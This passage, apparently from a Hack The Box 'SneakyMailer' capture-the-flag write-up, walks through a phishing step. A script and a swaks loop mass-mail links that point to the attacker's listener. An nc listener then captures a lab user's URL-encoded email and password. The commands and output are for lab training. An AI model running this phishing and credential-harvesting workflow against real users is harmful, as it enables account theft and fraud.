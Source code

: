#### Sending Mail

```shell
cfx:  ~/Documents/htb/sneakymailer
→ ./ultrafisher.py emails.txt
[∧] Sending Mail to -> donnasnider@sneakymailer.htb

[+] Phishing Mail Sent
```

Once the mail is sent to all the email addresses, we should see a confirmation as `Phishing Mail Sent`. In case if we had any invalid email address the script should have pointed out that as well.

#### Creds

Once the script execution is completed we get a call back on our listener with url encoded creds. It appears the user with email id `paulbyrd@sneakymailer.htb` visited our link and dropped his creds.

```shell
cfx:  ~/Documents/htb/sneakymailer
→ nc -lvnp 8040
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8040
Ncat: Listening on 0.0.0.0:8040
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:58836.
POST / HTTP/1.1
Host: 10.10.14.3:8040
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

#### Swaks

We could also achieve the same using `swaks` a commandline tool to send emails:

```shell
cfx:  ~/Documents/htb/sneakymailer
→ for i in $(cat emails.txt); do swaks --server 10.10.10.197 --from 'cold@fusionsecurity.cfx' --to $i --header "Subject: Anything" --body "Click on http://10.10.14.3:8040"; done
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO cfx
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<cold@fusionsecurity.cfx>
<-  250 2.1.0 Ok
 -> RCPT TO:<tigernixon@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
```